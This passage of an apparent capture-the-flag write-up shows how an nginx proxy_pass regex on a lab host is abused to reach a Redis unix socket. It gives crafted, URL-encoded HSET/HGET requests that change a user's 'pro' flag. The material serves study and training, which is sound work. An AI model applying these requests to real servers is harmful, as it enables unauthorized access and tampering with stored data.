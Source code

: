 The reference documentation about **proxy_pass** : [https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass](https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass)

This directive seems to be aimed internal use only. It would redirect a call to `http://microbucket.htb/static/john/item` to `http://john.microbucket.htb/item` 

But we can find some exploits on this : 
* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx)
* [https://dev.to/vearutop/using-nginx-as-a-proxy-to-multiple-unix-sockets-3c7a](https://dev.to/vearutop/using-nginx-as-a-proxy-to-multiple-unix-sockets-3c7a)

As specified, we could access :

```text
http://unix:/any_file
```

from something like :

```text
http://microbucket.htb/static/unix:/any_file/
```

Note: the last `/` at the end is required for the regex in `location ~ /static/(.*)/(.*)` to match

In order to execute requests on redis, we also need to change the HTTP verb, which would give something like :

* `HGET /static/unix:/var/run/redis/redis.sock:john pro / HTTP/1.1`
* `HSET /static/unix:/var/run/redis/redis.sock:john pro true / HTTP/1.1`

in order to get or set the `pro` flag in redis.

Another point of interest, is that, according to the regex, there must not be any `/` in the redis request, or nginX wil split it. To avoid this, we need to URL encode the problematic characters.

Using burpsuite, we can reuse a request and modify it to set the `pro` flag :

```python
HSET /static/unix:%2fvar%2frun%2fredis%2fredis.sock:john%20pro%20true%20/fakeuri HTTP/1.1
Host: microblog.htb
```

![Untitled](assets/pro_flag_set.png)
